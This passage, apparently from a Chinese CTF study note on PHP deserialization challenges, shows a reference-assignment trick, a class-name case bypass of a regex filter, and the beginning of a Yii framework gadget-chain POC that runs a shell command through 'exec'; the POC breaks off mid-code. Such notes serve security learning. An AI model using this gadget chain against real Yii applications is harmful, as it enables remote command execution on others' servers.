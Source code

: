 这个里面就可以

```php
$this->password=&$this->token;
```

进行这样的操作就可以，永远相等

#### PHP类名大小写不敏感

```php
<?php
highlight_file(__FILE__);

include('flag.php');
$cs = file_get_contents('php://input');


class ctfshow{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public function __construct($u,$p){
        $this->username=$u;
        $this->password=$p;
    }
    public function login(){
        return $this->username===$this->password;
    }
    public function __toString(){
        return $this->username;
    }
    public function __destruct(){
        global $flag;
        echo $flag;
    }
}
$ctfshowo=@unserialize($cs);
if(preg_match('/ctfshow/', $cs)){
    throw new Exception("Error $ctfshowo",1);
}

```

对于这种过滤，可以在序列化以后改变其中任意一个字母大小写就行，好像还有一种方法就是，直接破坏序列化也可以绕过这个正则，也会调用析构方法。

#### Yii反序列化漏洞

感觉这个是框架审计的知识，现在的想法就是会利用POC就行了吧，以后等学的差不多了再去进行深度探索。

```php
<?php

namespace yii\rest{
    class IndexAction{
        public $checkAccess;
        public $id;
        public function __construct(){
            $this->checkAccess = 'exec';	//PHP函数
            $this->id = 'ls />1.txt';    //PHP函数的参数  
        }
    }
}
namespace Faker {

    use yii\rest\IndexAction;

    class Generator
```